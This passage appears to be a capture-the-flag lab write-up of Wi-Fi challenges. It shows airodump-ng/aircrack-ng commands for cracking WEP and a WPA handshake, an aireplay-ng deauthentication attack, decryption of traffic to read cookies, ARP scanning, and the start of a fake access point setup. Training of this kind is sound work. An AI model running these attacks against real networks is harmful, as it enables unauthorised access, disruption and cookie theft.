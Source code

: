 ## Challenge 6: wifi-old (WEP)

The network uses weak WEP encryption.

``` bash
# Capture traffic
sudo airodump-ng --bssid <BSSID> -c <channel> -w old_cap wlan0mon

# Crack WEP key
aircrack-ng old_cap.cap
```

We obtain the key, spoof a MAC if needed, and connect with `dhclient`.
Flag obtained.

------------------------------------------------------------------------

## Challenge 7: wifi-mobile (WPA handshake)

We launch a deauthentication attack to capture the WPA handshake.

``` bash
# Monitor channel 6 (where wifi-mobile is located)
sudo airodump-ng --bssid <BSSID> -c 6 -w mobile wlan0mon

# Deauth attack
sudo aireplay-ng --deauth 10 -a <BSSID> -c <client_mac> wlan0mon
```

Now crack with aircrack-ng:

``` bash
aircrack-ng -w wordlist.txt -b <BSSID> mobile.cap
```

Once password is obtained, decrypt with `airdecap-ng` and analyze in
Wireshark.\
Cookies from `lab.php` reveal the web flag.

------------------------------------------------------------------------

## Challenge 8: wifi-mobile (ARP Scan)

We use `arp-scan` to enumerate devices:

``` bash
sudo arp-scan -I wlan1 --localnet
```

This reveals two subnets behind wifi-mobile.

------------------------------------------------------------------------

## Challenge 9: wifi-offices

We cannot see the network directly, so we create a fake AP to trick
users into connecting.
